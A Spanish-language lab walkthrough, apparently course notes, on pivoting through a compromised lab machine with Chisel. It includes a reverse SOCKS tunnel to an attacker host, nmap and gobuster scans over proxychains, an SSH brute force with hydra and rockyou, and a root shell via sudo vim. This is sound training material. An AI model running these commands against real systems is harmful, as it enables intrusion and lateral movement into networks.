




# Pivoting con Chisel

  

## ¿Qué es Chisel?

  

**Chisel** es una herramienta de tunelización TCP/UDP rápida y multiplexada, diseñada específicamente para situaciones con redes complicadas y restricciones de firewall. Está escrita en Go, lo que facilita su compilación y despliegue en múltiples plataformas. Su capacidad de crear túneles reversas a través de HTTP lo convierte en una alternativa muy potente al túnel SSH dinámico, especialmente cuando SSH no está disponible o está bloqueado.

  

Descarga: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

  

### Características principales

  
    
* **Simplicidad:** fácil de configurar y usar, ideal para despliegue rápido en sistemas comprometidos.
    
* **Soporte TCP y UDP:** permite tunelizar ambos tipos de tráfico.
    
* **Multiplexación:** múltiples conexiones sobre un único túnel Chisel.
    
* **Conexión inversa:** el cliente (máquina comprometida) inicia la conexión hacia el servidor (atacante), evitando restricciones de firewall que bloquean conexiones entrantes.
  

  

### Modo de funcionamiento

  

Chisel opera con dos componentes: un **servidor** en la máquina del atacante y un **cliente** en la máquina comprometida.

  

Servidor (en Kali):

  

```bash
./chisel server -p 8000 --reverse
```

  

Cliente (en la máquina comprometida):

  

```bash
./chisel client <IP_servidor>:8000 R:socks
```

  

La opción `R:socks` crea un proxy SOCKS inverso que podemos usar con proxychains para redirigir tráfico hacia la red interna de la máquina comprometida.

  

## Laboratorio

  

Importamos la OVA **pivoting.ova**, configuramos la red como "Hacking" y levantamos el laboratorio (`tecnico / SegInf`):

  

```bash
$ sudo /etc/init.d/init_vm start
```

  


  

## Paso 1: Acceso inicial mediante túnel SSH

  

Partimos del acceso a Debian ya comprometida. Configuramos proxychains con el túnel SSH dinámico:

  

```bash
# Editar proxychains
$ sudo nano /etc/proxychains4.conf
# Añadir al final:
socks5 127.0.0.1 1080

# Abrir el túnel SSH dinámico hacia Debian
$ ssh -D 1080 tecnico@10.0.0.24

# Conectar a la Víctima 1 a través del proxy
$ proxychains -q ssh manchi@10.10.10.2
```

  



  

Comprobamos las interfaces de red de la Víctima 1:

  

```bash
manchi@51f247c239a9:~$ hostname -I
10.10.10.2 20.20.20.2
```

  

La máquina tiene acceso a dos redes. Usaremos esta posición como pivote para alcanzar la red `20.20.20.0/24` mediante Chisel.

  

## Paso 2: Desplegar Chisel en la Víctima 1

  

Desde la sesión en la Víctima 1 descargamos y preparamos el binario de Chisel:

  

```bash
manchi@$ cd /tmp/
manchi@:/tmp$ wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
manchi@:/tmp$ gunzip chisel_1.9.1_linux_amd64.gz
manchi@:/tmp$ mv chisel_1.9.1_linux_amd64 chisel
manchi@:/tmp$ chmod +x chisel
```

  

## Paso 3: Establecer el túnel Chisel

  

En Kali iniciamos el servidor Chisel:

  

```bash
Kali $ ./chisel server --reverse -p 8000
```

  

En la Víctima 1 conectamos el cliente Chisel hacia el servidor, creando un proxy SOCKS inverso en el puerto 1090 de Kali:

  

```bash
manchi@:/tmp$ ./chisel client 10.0.0.15:8000 R:1090:socks
```

  

Vemos cómo llega la conexión al servidor:

  



  

Actualizamos proxychains en Kali añadiendo el nuevo proxy en primera posición (la conexión más reciente va arriba):

  

```bash
$ sudo nano /etc/proxychains4.conf
```

  



  
    

Con esta configuración, proxychains encadenará primero el proxy SOCKS del tunel Chisel (1090) y luego el del túnel SSH (1080), permitiendo alcanzar la red `20.20.20.0/24` desde Kali.

  

  

## Paso 4: Reconocimiento de la red 20.20.20.0/24

  

Escaneamos la máquina `20.20.20.3`:

  

```bash
$ sudo proxychains nmap -sT -p- 20.20.20.3
```

  

```bash
[proxychains] Dynamic chain ... 127.0.0.1:1090 ... 20.20.20.3:80 ... OK
[proxychains] Dynamic chain ... 127.0.0.1:1090 ... 20.20.20.3:22 ... OK
```

  

Exploramos el servicio web:

  

```bash
$ curl 'http://20.20.20.3' --proxy socks5://127.0.0.1:1090
```

  

Enumeramos directorios con gobuster:

  

```bash
$ gobuster dir -u http://20.20.20.3 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt \
  --proxy socks5://127.0.0.1:1090
```

  

Inspeccionamos el archivo `secret.php` encontrado:

  

```bash
$ curl 'http://20.20.20.3/secret.php' --proxy socks5://127.0.0.1:1090
```

  

```bash
<h1>Hola Mario,</h1>
<p>Esta web no se puede hackear.</p>
```

  

El mensaje revela un posible nombre de usuario: **mario**.

  

## Paso 5: Fuerza bruta SSH y escalada de privilegios

  

Hacemos fuerza bruta al usuario `mario` con hydra a través del proxy:

  

```bash
$ proxychains hydra -l mario \
  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
  ssh://20.20.20.3
```

  



  

Accedemos por SSH:

  

```bash
$ proxychains ssh mario@20.20.20.3
```

  

Comprobamos las interfaces de red:

  

```bash
mario@:~$ hostname -I
20.20.20.3 30.30.30.2
```

  

La máquina también tiene dos interfaces: seguimos avanzando en la red. Para obtener root aprovechamos el permiso sudo sobre `vim`:

  

```bash
mario@2338c555904f:~$ sudo -l
(ALL) /usr/bin/vim

mario@2338c555904f:~$ sudo vim -c ':!/bin/bash'
root@2338c555904f:~# whoami
root
```

  
    

Hemos llegado a la tercera máquina (`20.20.20.3`) con privilegios de root. Esta también tiene interfaz en la red `30.30.30.0/24`, que podría ser el siguiente objetivo en una cadena de pivoting más profunda.

  

  

## 📚 Navegación

  

    [→ Siguiente: Chisel + Socat]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10d - Pivoting - Práctica 4 - Encadenamiento Chisel y Socat (4 Saltos)|10d - Pivoting 4 - Chisel + Socat]])
    [← Anterior: Túnel SSH]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/10b - Pivoting - Práctica 2 - Túnel SSH Dinámico y Proxychains|10b - Pivoting 2 - Túnel SSH]])
    [↑ Volver al Índice]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
